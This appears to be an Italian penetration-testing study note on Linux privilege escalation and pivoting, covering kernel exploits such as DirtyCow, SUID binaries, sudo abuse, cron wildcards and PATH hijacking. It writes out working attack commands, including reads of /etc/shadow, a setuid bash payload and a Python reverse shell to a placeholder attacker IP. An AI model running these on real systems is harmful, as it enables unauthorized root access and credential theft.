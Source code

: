 # linpeas.sh

>[!important]- LinPEAS
>Linux Privilege Escalatopm Awesome Script

# Kernel Exploits: Enumerate Distribution
```sh
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release #Debian-based
cat /etc/redhat-release #Redhat-based
```
![[Pasted image 20240520143425.png|center|500]]
## Kernel Esploits: Enumerate Kernel
```sh
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinux-
```
![[Pasted image 20240520144413.png|center|600]]
## Kernel Exploits
Gli exploit del kernel sono programmi che sfruttano le vulnerabilità del kernel per eseguire codice arbitrario con autorizzazioni elevate.
In molti casi, passare al root su un sistema Linux è semplice come scaricare un exploit del kernel nel file system di destinazione, compilare l'exploit e quindi eseguirlo.
Il modo più semplice per difendersi dagli exploit del kernel è mantenere il kernel patchato e aggiornato.
### Esempio: Dirty Cow

![[Pasted image 20240520144627.png|center|600]]
`$ whoami` - ci dice che l'utente corrente è john (utente non root)
`$ uname -a` - ci fornisce la versione del kernel che sappiamo essere vulnerabile a dirtycow
- scaricato l'exploit DirtyCow da qui - https://www.exploit-db.com/exploits/40839/
- compilato ed eseguito. Sostituisce l'utente "root" con un nuovo utente "rash" modificando il file /etc/passwd.
`$ su rash` - Cambia l'utente correntemente connesso in "rash" che è root.
## Search for exploits
![[Pasted image 20240521143322.png|center|550]]
### Non usare come prima scelta
Tuttavia, è molto allettante eseguire semplicemente un exploit e ottenere l'accesso come root, ma dovresti sempre mantenerlo come ultima opzione.
1. L'host remoto potrebbe bloccarsi poiché molti degli exploit root disponibili pubblicamente non sono molto stabili.
2. Potresti ottenere il root e quindi mandare in crash il box.
3. L'exploit potrebbe lasciare tracce/registri che potrebbero farti catturare.
Dovresti sempre provare le altre tecniche per ottenere il root di cui abbiamo discusso di seguito prima di passare direttamente all'esecuzione di un exploit di root locale.
## Servizi eseguiti come root: privilegi dei servizi
```sh
ps aux
ps -ef
top
cat /etc/services
ps aux | grep root
ps -ef | grep root
```

![[Pasted image 20240521143534.png|center|600]]

### Servizi di root: Applicazioni installate
```sh
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/<package manager>/archives
```

![[Pasted image 20240521143842.png|center|600]]
#### Misconfigurazioni
```sh
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk "$1 ~ /^.*r.*/
```
### Esempio: MySQL UDF
## Binari Suid
`find / -perm -4000 2>/dev/null`
![[Pasted image 20240521144157.png|center|600]]
### Esempio
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
./strings /etc/shadow
```
#### Comandi Sudo

`sudo -l`
User demo may run the following commands on crashlab:
`(root) NOPASSWD: /usr/bin/vim`
`sudo vim -c '!sh'`
User waldo may run the following commands on admirer:
`(ALL) SETENV: /opt/scripts/admin_tasks.sh`
`sudo PYTHONPATH=/dev/shm/opt/scripts/admin_tasks.sh`
User `hacker10` may run the following commands on admirer:
`hacker10 ALL= (root) /bin/less /var/log/*`
` sudo less /var/log/../../etc/shadow #Read shadow`
` sudo less /var/log/something /etc/shadow #Read 2 files`
## Cronjobs
```sh
crontab -l
ls -la /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab/var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
### Cronjobs : wildcards
`rsync -a *.sh rsync://host.back/src/rbd`
Possiamo creare un file chiamato "`-e sh myscript.sh`" così lo script eseguirà il nostro script
**Se la wildcard è preceduta da `/some/path/*` allora non è vulnerabile**.
### Abuso dei PATH
Se puoi controllare qualcosa nella radice $PATH hai molto potere
Esempio con cronjob:
`* * * * root script.sh`
Il percorso è:
`PATH=/home/utente:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`
Sfrutta con:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/utente/script.sh`
`/tmp/bash -p`
# Pivoting
Passaggio da una macchina all'altra, cosa molto comune durante una grande valutazione, potrai utilizzare tutte le tecniche che abbiamo studiato ma dovrai passare da un'altra macchina.
Verranno mostrati:
- Abbellimento della shell
- Tunneling
- Port Knocking
## Abbellimento della shell
Di certo non puoi eseguire exploits su una web shell $\texttt{di merda}$.
`python3 -c import pty; pty.spawn("/bin/bash)`
Versione reverse:
```
python3 -c 'import socket,subprocess,os;\
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);\
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
